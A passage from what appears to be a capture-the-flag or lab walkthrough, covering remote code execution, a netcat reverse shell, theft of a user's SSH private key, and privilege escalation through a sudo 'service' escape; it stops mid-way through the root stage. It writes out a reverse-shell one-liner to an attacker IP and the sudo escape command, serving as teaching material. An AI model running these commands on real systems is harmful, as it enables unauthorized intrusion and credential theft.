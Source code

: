 ![](https://i.imgur.com/sxVhI33.png)

We get a request on our python server and on the web page we'll get the ouput of id command 

![](https://i.imgur.com/aW9z6ej.png)

Now that we have confirmed there's RCE we can get a reverse shell and for that we'll use netcat busybox one-liner as by default busybox version of netcat is available

```bash
<pre>system('rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.123 2222 >/tmp/f')</pre>
```

![](https://i.imgur.com/ahtVT52.png)

Stabilizing the shell with python3 so that we can get make our reverse shell better with the arrow key and tab completion functionality

![](https://i.imgur.com/LgukCiR.png)

##### Privilege Escalation

We can access max's directory which had .ssh hiden directory having the private key

![]https://i.imgur.com/HVRCnR6.png)

We can transfer that onto our local machine and use it through SSH to login but before that we want to change the permissions of that file to read and write only by our current user with chmod 600

![](https://i.imgur.com/AaRQnpl.png)

![](https://i.imgur.com/Xcdz8bH.png)

Doing sudo -l will show that max can run service with steven user, we can check the abuse from GTFOBINS to escalate our privileges 

![](https://i.imgur.com/NGnMRV5.png)

![](https://i.imgur.com/YGperAv.png)

```bash
sudo -u steven /usr/sbin/service ../../bin/bash
```

![](https://i.imgur.com/BdWBxXU.png)

##### Gaining Root Access

Doing sudo -l again with steven will show that we can run /opt/tools/server-health.sh as a root user

!{](https://i.imgur.com/9kkB5kD.png)

But this file doesn't exist on checking with ls 
